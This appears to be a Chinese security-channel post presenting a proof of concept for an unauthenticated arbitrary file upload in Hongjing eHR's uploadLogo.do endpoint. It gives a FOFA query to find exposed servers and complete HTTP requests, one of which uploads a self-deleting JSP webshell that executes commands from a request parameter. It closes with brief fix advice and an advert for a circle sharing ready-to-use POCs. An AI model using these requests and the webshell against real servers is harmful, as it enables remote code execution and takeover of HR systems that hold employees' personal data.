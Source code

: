 #  宏景eHR uploadLogo.do 任意文件上传漏洞   
Superhero  nday POC   2024-11-22 08:16  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkYN4sZibCVo6EFo0N9b7Kib4I4N6j6Y10tynLOdgov9ibUmaNwW5yeoCbQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkhic5lbbPcpxTLtLccZ04WhwDotW7g2b3zBgZeS5uvFH4dxf0tj0Rutw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCk524CiapZejYicic1Hf8LPt8qR893A3IP38J3NMmskDZjyqNkShewpibEfA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
  
**00******  
  
**产品简介**  
  
  
宏景eHR人力资源管理软件是一款专为复杂单组织或多组织客户设计的人力资源管理软件，融合了最新的 互联网技术和先进的人力资源管理理念和实践。宏景eHR软件支持B/S架构，特别适合集团化管理和跨地域使用。它提供了全面的人力资源管理功能，包括人员、组织机构、档案、合同、薪资、保险、绩效、考勤、招聘、培训、干部任免和人事流程等业务的管理，以及人事、绩效、培训、招聘、考勤等业务自助。此外，该软件还具备报表功能和 灵活的表格工具，支持集团管控、目标管理、领导决策等应用。  
  
  
**01******  
  
**漏洞概述**  
  
  
宏景eHR uploadLogo.do 接口存在任意文件上传漏洞，未经身份验证远程攻击者可利用该漏洞代码执行，写入WebShell,进一步控制服务器权限。  
  
  
**02******  
  
**搜索引擎**  
  
  
FOFA:   
```
app="HJSOFT-HCM"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYibicPiamIEhziby8iarT7gugVxFgTWzY36Be2ufyyqHib4cmRe9W7SdHiacq2g/640?wx_fmt=png&from=appmsg "")  
  
  
**03******  
  
**漏洞复现**  
  
1、获取cookie  
```
GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
Host: 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYibYHzXCJXFCoo6Sb3eM6B8BBSY5WZDDDrRdJ7XyUw6SUVtkn1H0yS2sQ/640?wx_fmt=png&from=appmsg "")  
  
2、携带cookie获取文件上传路径   
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: 获取到的cookie
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"


------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

1
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

1
------WebKitFormBoundaryfjKBvGWJbG07Z02r--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYib7a7RQslvzKstQHp6XPmUGuGckKGOjrSvGUMvtXXxxrAd0Ssa6ISZ8g/640?wx_fmt=png&from=appmsg "")  
  
3、上传shell  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: 获取到的cookie
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"

C~3a~5c^66f4^65b0^8865^4e01^524d^5907^4efd~5capache~2dtomcat~2d~39~2e~30~2e~34~33~5cwebapps~5cROOT~5crce.jsp
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

1
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYibN45w7CNNcBt0DZzmzFGtEhgnrZpeHm6rZlCsHTAnajHuagtJqrEdiaw/640?wx_fmt=png&from=appmsg "")  
  
4、访问shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYib9NYUBia8tTHbELrBgWlISmUAEV7nLXuF23icJicprnjToWLTugG3CWBxw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**04**  
  
**检测工具**  
  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYibv3tnKS5KSaSNlTSibusv8TUs9r8toTOQxdvo51cHickE36Jj3phnGKDQ/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYibRaqzLspNrBZjDU25IlL36qboPHc8ogmNdptoHlicZcBIRMQW9NMeP1w/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwLNv7ZfWGDsCMyZyQDQibyYibSrsCcH4GvU1jq1UcwuJ0rubqsbWB2B05TYwKJ9PO1WH6XqlRJFiaaTA/640?wx_fmt=png&from=appmsg "")  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、升级至安全版本  
  
  
**06******  
  
**内部圈子介绍**  
  
  
1、本圈子主要是分享网上公布的1day/nday POC详情及对应检测脚本，目前POC脚本均支持xray、afrog、nuclei等三款常用工具。   
  
2、三款工具都支持内置poc+自写poc目录一起扫描。   
  
3、保持每周更新10-15个poc。   
  
4、所发布的POC脚本均已测试完毕，直接拿来即用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
  

